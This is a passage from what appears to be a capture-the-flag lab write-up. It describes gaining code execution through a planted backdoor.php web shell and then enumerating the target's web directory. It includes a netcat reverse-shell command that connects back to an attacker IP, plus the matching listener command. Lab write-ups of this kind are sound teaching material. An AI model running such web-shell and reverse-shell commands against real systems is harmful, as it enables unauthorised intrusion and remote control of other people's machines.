 and then visted `/backdoor.php?cmd=ls` to get RCE.

![](images/rce.png)

Now we can easily get reverse shell by visiting the following URL

```bash
backdoor.php?cmd=nc -e /bin/sh 10.10.15.107 4444
```
and  I got the shell on my listener which I started by running `nc -nlvp 4444`.

![](images/reverse-shell.png)


I tried to go into `user` directory to get the `user` flag but got permission denied.

![](images/permission.png)

So I started looking around in the `/var/www` folder and found a `simpler.py` file in `/var/www/html/Admin-Utilities`
